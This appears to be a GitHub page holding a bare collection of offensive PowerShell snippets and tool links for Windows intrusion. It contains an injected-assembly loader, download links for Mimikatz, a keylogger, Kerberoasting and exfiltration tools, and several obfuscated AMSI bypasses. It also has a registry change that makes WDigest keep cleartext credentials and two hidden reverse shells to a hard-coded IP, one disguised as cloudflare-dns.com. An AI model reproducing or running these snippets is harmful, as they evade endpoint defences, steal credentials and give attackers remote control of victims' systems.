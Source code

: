 $base = gc -raw .\remote.txt
$b64 = [System.Convert]::FromBase64String($base)
[System.Reflection.Assembly]::Load($b64)
[CreateRemoteThread.Program]::Main(@())
[CreateRemoteThread.Program]::Main(@(8812))

https://raw.githubusercontent.com/vinicius-batistella/Rumo/refs/heads/main/create.txt
https://raw.githubusercontent.com/vinicius-batistella/Rumo/refs/heads/main/nt.txt
https://raw.githubusercontent.com/vinicius-batistella/Rumo/refs/heads/main/remote.txt

==============================================================================================================================

https://github.com/Arno0x/DNSExfiltrator/raw/refs/heads/master/release/dnsExfiltrator.exe

https://raw.githubusercontent.com/lazywinadmin/PowerShell/refs/heads/master/TOOL-Start-KeyLogger/Start-KeyLogger.ps1

https://raw.githubusercontent.com/vinicius-batistella/Rumo/refs/heads/main/key.txt

https://raw.githubusercontent.com/gangstanthony/PowerShell/refs/heads/master/Get-Clipboard.ps1

https://raw.githubusercontent.com/vinicius-batistella/Rumo/refs/heads/main/clip.txt

https://gist.githubusercontent.com/0xbadjuju/0ebe02983273048c237a8b24633cee3f/raw/c385a21c230ee0e274293aa4e50b5b9ed4197df2/Invoke-Kerberoast.ps1

https://raw.githubusercontent.com/vinicius-batistella/Rumo/refs/heads/main/kerb.txt

https://raw.githubusercontent.com/BloodHoundAD/BloodHound/refs/heads/master/Collectors/SharpHound.ps1

https://raw.githubusercontent.com/vinicius-batistella/Rumo/refs/heads/main/blood.txt

https://raw.githubusercontent.com/vinicius-batistella/Rumo/refs/heads/main/gpp.txt

https://raw.githubusercontent.com/PowerShellMafia/PowerSploit/refs/heads/master/Exfiltration/Get-GPPPassword.ps1

https://github.com/vinicius-batistella/Rumo/raw/refs/heads/main/catz.txt

https://github.com/vinicius-batistella/Rumo/raw/refs/heads/main/Invoke-Mimikatz.ps1

https://raw.githubusercontent.com/Kevin-Robertson/Inveigh/refs/heads/master/Inveigh.ps1

https://raw.githubusercontent.com/vinicius-batistella/Rumo/refs/heads/main/fake.txt

==============================================================================================================================

[Ref].Assembly.GetType('System.Management.Automation.'+$([Text.Encoding]::Unicode.GetString([Convert]::FromBase64String('QQBtAHMAaQBVAHQAaQBsAHMA')))).GetField($([Text.Encoding]::Unicode.GetString([Convert]::FromBase64String('YQBtAHMAaQBJAG4AaQB0AEYAYQBpAGwAZQBkAA=='))),'NonPublic,Static').SetValue($null,$true)

==============================================================================================================================

reg query HKLM\System\CurrentControlSet\Control\SecurityProviders\WDigest /v UseLogonCredential

reg add HKLM\System\CurrentControlSet\Control\SecurityProviders\WDigest /v UseLogonCredential /t REG_DWORD /d 1

==============================================================================================================================

$c = ‘t’
$Win32 = @”
using System.Runtime.InteropServices;
using System;
public class Win32 {
[DllImport(“kernel32”)]
public static extern IntPtr GetProcAddress(IntPtr hModule, string procName);
[DllImport(“kernel32”)]
public static extern IntPtr LoadLibrary(string name);
[DllImport(“kernel32”)]
public static extern bool VirtualProtec$c(IntPtr lpAddress, UIntPtr dwSize, uint flNewProtect, out uint lpflOldProtect);
}
“@
Add-Type $Win32
$nowhere = [Byte[]](0x61, 0x6d, 0x73, 0x69, 0x2e, 0x64, 0x6c, 0x6c)
$LoadLibrary = [Win32]::LoadLibrary([System.Text.Encoding]::ASCII.GetString($nowhere))
$somewhere = [Byte[]] (0x41, 0x6d, 0x73, 0x69, 0x53, 0x63, 0x61, 0x6e, 0x42, 0x75, 0x66, 0x66, 0x65, 0x72)
$notaddress = [Win32]::GetProcAddress($LoadLibrary, [System.Text.Encoding]::ASCII.GetString($somewhere))
$notp = 0
$replace = ‘VirtualProtec’
[Win32]::(‘{0}{1}’ -f $replace,$c)($notaddress, [uint32]5, 0x40, [ref]$notp)
$stopitplease = [Byte[]] (0xB8, 0x57, 0x00, 0x17, 0x20, 0x35, 0x8A, 0x53, 0x34, 0x1D, 0x05, 0x7A, 0xAC, 0xE3, 0x42, 0xC3)
$marshalClass = [System.Runtime.InteropServices.Marshal]
$marshalClass::Copy($stopitplease, 0, $notaddress, $stopitplease.Length)

==============================================================================================================================

$kizax = @"
using System;
using System.Runtime.InteropServices;
public class kizax {
    [DllImport("kernel32")]
    public static extern IntPtr GetProcAddress(IntPtr hModule, string procName);
    [DllImport("kernel32")]
    public static extern IntPtr LoadLibrary(string name);
    [DllImport("kernel32")]
    public static extern bool VirtualProtect(IntPtr lpAddress, UIntPtr yjnqcb, uint flNewProtect, out uint lpflOldProtect);
}
"@

Add-Type $kizax

$rykogwu = [kizax]::LoadLibrary("$(('àm'+'sî'+'.d'+'ll').noRMaLiZe([CHAr]([BYte]0x46)+[ChAr]([BYTE]0x6f)+[chAR]([BYTe]0x72)+[Char](109*8/8)+[chaR](68*31/31)) -replace [cHaR](92+76-76)+[cHaR]([byTE]0x70)+[cHar](107+16)+[chAr]([BYtE]0x4d)+[char]([BytE]0x6e)+[cHAr]([byTe]0x7d))")
$iyslea = [kizax]::GetProcAddress($rykogwu, "$(('ÃmsîScân'+'Buffer').normaliZe([ChAr]([bYTe]0x46)+[CHaR]([byte]0x6f)+[chAR]([BYTE]0x72)+[cHar]([byte]0x6d)+[chaR]([byTe]0x44)) -replace [char]([bYTe]0x5c)+[char](112*56/56)+[CHAR](123)+[CHAr](75+2)+[char](94+16)+[ChAR]([ByTE]0x7d))")
$p = 0
[kizax]::VirtualProtect($iyslea, [uint32]5, 0x40, [ref]$p)
$aapt = "0xB8"
$qkwf = "0x57"
$snxi = "0x00"
$wnan = "0x07"
$nchj = "0x80"
$yywa = "0xC3"
$estof = [Byte[]] ($aapt,$qkwf,$snxi,$wnan,+$nchj,+$yywa)
[System.Runtime.InteropServices.Marshal]::Copy($estof, 0, $iyslea, 6)

==============================================================================================================================

$teste = [Ref].Assembly.GetType('System.Management.Automation.Am'+'siUtils').GetField('am'+'siInitFailed','NonPublic,Static')
$teste.SetValue($null,$true)

==============================================================================================================================

$x=51;$a=[Ref].Assembly;$y=$x*1000;$b=$a.GetTypes();$z=$y-32;$c=ForEach($d in $b){$y=$y-1;$z=$y;if($d.Name -like '*ils'){$z=$z-1;$x=$y+$z;if($d.Name -like '*siUt*'){$y=$y+1;$x=$y;$y=$y-1;$d;break;};};};$x=$z;$e=$c.GetFields('NonPublic,Static');$y=$x-2;$g=ForEach($f in $e){if($f.Name -like '*ext'){$z=$z-1;$x=$y+$z;if($f.Name -like '*siCo*'){$y=$y+1;$x=$y;$y=$y-1;$f;break;};};};$z=324;$h=$g.GetValue($null);$x=$y-2;[IntPtr]$i=$h;$z=$x+2;[Int32[]]$j=@(0);$y=$z;[System.Runtime.InteropServices.Marshal]::Copy($j,0,$i,1);

==============================================================================================================================

powershell -nop -W hidden -noni -ep bypass -c "$TCPClient = New-Object Net.Sockets.TCPClient('52.54.121.107', 443);$NetworkStream = $TCPClient.GetStream();$StreamWriter = New-Object IO.StreamWriter($NetworkStream);function WriteToStream ($String) {[byte[]]$script:Buffer = 0..$TCPClient.ReceiveBufferSize | % {0};$StreamWriter.Write($String + 'SHELL> ');$StreamWriter.Flush()}WriteToStream '';while(($BytesRead = $NetworkStream.Read($Buffer, 0, $Buffer.Length)) -gt 0) {$Command = ([text.encoding]::UTF8).GetString($Buffer, 0, $BytesRead - 1);$Output = try {Invoke-Expression $Command 2>&1 | Out-String} catch {$_ | Out-String}WriteToStream ($Output)}$StreamWriter.Close()"

==============================================================================================================================

$sslProtocols = [System.Security.Authentication.SslProtocols]::Tls12; $TCPClient = New-Object Net.Sockets.TCPClient('52.54.121.107', 443);$NetworkStream = $TCPClient.GetStream();$SslStream = New-Object Net.Security.SslStream($NetworkStream,$false,({$true} -as [Net.Security.RemoteCertificateValidationCallback]));$SslStream.AuthenticateAsClient('cloudflare-dns.com',$null,$sslProtocols,$false);if(!$SslStream.IsEncrypted -or !$SslStream.IsSigned) {$SslStream.Close();exit}$StreamWriter = New-Object IO.StreamWriter($SslStream);function WriteToStream ($String) {[byte[]]$script:Buffer = New-Object System.Byte[] 4096 ;$StreamWriter.Write($String + 'SHELL> ');$StreamWriter.Flush()};WriteToStream '';while(($BytesRead = $SslStream.Read($Buffer, 0, $Buffer.Length)) -gt 0) {$Command = ([text.encoding]::UTF8).GetString($Buffer, 0, $BytesRead - 1);$Output = try {Invoke-Expression $Command 2>&1 | Out-String} catch {$_ | Out-String}WriteToStream ($Output)}$StreamWriter.Close()

==============================================================================================================================

$x=51
$a=[Ref].Assembly
$y=$x*1000
$b=$a.GetTypes()
$z=$y-32
$c=ForEach($d in $b){$y=$y-1;$z=$y;if($d.Name -like '*ils'){$z=$z-1;$x=$y+$z;if($d.Name -like 'siUt'){$y=$y+1;$x=$y;$y=$y-1;$d;break;};};}
$x=$z
$e=$c.GetFields('NonPublic,Static')
$y=$x-2
$g=ForEach($f in $e){if($f.Name -like '*ext'){$z=$z-1;$x=$y+$z;if($f.Name -like 'siCo'){$y=$y+1;$x=$y;$y=$y-1;$f;break;};};}
$z=324
$h=$g.GetValue($null)
$x=$y-2
[IntPtr]$i=$h
$z=$x+2
[Int32[]]$j=@(0)
$y=$z
[System.Runtime.InteropServices.Marshal]::Copy($j,0,$i,1)

